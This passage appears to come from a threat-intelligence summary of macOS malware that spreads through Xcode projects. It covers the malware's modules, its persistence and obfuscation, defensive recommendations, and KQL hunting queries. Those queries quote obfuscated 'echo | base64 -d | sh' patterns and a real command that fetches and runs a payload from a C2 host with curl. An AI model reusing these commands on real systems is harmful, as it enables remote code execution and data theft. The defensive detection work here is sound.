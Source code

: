 *   **Command Runner (fpfb):** Executes a predefined command ("ls -la ~/Desktop" currently) and uploads the result to the C2 server.
*   **Specific File Exfiltrator (vectfd):** Retrieves files matching a pattern defined in `INAME_QUERY` (currently "*test.txt") within the user's home directory, excluding certain directories and sizes. It archives the retrieved files, sends the archive to a C2 server, and deletes it.

The malware extensively uses **obfuscation (hex and Base64 encoding, randomized payload generation, obfuscated module names)**, **persistence techniques (zshrc, Dock, Git hooks)**, **masquerading (fake applications)**, and **TCC manipulation**. It leverages **AppleScript and shell scripting** for various tasks.

### Countries
The report does not explicitly state targeted countries. However, given the nature of software development and the global use of Xcode, the potential impact could be widespread.

### Industries
The primary industry targeted is **software development**, specifically those developing applications for Apple platforms (macOS, iOS, etc.) using **Xcode**.

### Recommendations
*   **Run the latest version of your operating systems and applications**.
*   **Deploy the latest security updates** as soon as they become available.
*   **Always inspect and verify Xcode projects** downloaded or cloned from repositories.
*   **Encourage users to use web browsers that support Microsoft Defender SmartScreen** like Microsoft Edge on macOS.
*   **Use Microsoft Defender for Endpoint on Mac**.
*   **Turn on cloud-delivered protection and automatic sample submission on Microsoft Defender Antivirus**.
*   **Enable potentially unwanted application (PUA) protection in block mode**.
*   **Turn on network protection** to block connections to malicious domains and IP addresses.
*   **Microsoft Defender XDR customers can refer to the list of applicable detections**.
*   **Customers with provisioned access can use Microsoft Security Copilot in Microsoft Defender**.

### Hunting methods
*   **Search for suspicious commands while building an Xcode project** using the provided KQL query:
    ```kql
    DeviceProcessEvents
    | where ProcessCommandLine has_all("echo", "xxd -p -r", "| sh") or ProcessCommandLine has_all("echo", "base64 -d", "| sh")
    | where InitiatingProcessFileName has_any ("sh", "bash", "zsh")
    | where InitiatingProcessCommandLine contains "/Developer/Xcode/DerivedData"
    ```
*   **Search for suspicious payload patterns** using the provided KQL query:
    ```kql
    DeviceProcessEvents
    | where ProcessCommandLine has_all("echo", "xxd -p -r", "| sh") or ProcessCommandLine has_all("echo", "base64 -d", "| sh")
    | where InitiatingProcessFileName has_any ("sh", "bash", "zsh")
    ```
*   **Microsoft Sentinel customers can use the TI Mapping analytics** to match the malicious domain indicators.
*   **Search for command lines making first contact to C2 server or stopping Xcode, Terminal, or Finder applications** using the provided KQL query:
    ```kql
    union DeviceFileEvents, DeviceProcessEvents
    | where Timestamp >= ago(90d)
    | where ProcessCommandLine contains 'curl -fskL -d "https://bulknames.ru/a" | sh >/dev/null 2>&1 &'
    or ProcessCommandLine has "ps aux | grep -E '/Applications/(SimulatorTrampoline|Terminal|Finder).app' | grep -v grep | awk '{print $2}' | xargs kill -9 &/dev/null || true"